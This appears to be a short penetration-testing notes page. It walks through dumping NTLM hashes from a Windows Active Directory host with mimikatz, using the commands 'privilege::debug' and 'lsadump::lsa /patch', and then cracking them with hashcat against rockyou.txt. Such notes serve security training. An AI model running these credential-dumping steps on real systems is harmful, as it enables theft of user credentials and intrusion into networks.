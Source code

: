 # Dumping Hashes with mimikatz

### Introduction

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

***

### Dump Hashes w/ mimikatz

1. `cd Downloads` && mimikatz.exe this will cd into the directory that mimikatz is kept as well as run the mimikatz binary&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>
2. `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
3. `lsadump::lsa /patch` Dump those hashes!&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

***

### Crack those hashes w/ hashcat

1. `hashcat -m 1000 <hash> rockyou.txt`&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>
